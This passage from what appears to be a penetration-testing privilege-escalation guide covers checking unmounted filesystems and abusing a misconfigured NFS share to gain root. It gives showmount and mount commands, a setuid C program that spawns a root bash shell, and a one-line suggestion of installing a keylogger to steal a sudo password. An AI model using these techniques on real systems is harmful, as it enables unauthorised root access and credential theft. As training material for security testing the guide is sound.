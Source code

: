Here we are looking for any unmounted filesystems. If we find one we mount it and start the priv-esc process over again.

```
mount -l
cat /etc/fstab
```

### NFS Share

If you find that a machine has a NFS share you might be able to use that to escalate privileges. Depending on how it is configured.

```
# First check if the target machine has any NFS shares
showmount -e 192.168.1.101

# If it does, then mount it to you filesystem
mount 192.168.1.101:/ /tmp/
```

If that succeeds then you can go to `/tmp/share`. There might be some interesting stuff there. But even if there isn't you might be able to exploit it.

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```bash
chmod 4777 exploit
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

## Steal password through a keylogger

If you have access to an account with sudo-rights but you don't have its password you can install a keylogger to get it.

## Other useful stuff related to privesc
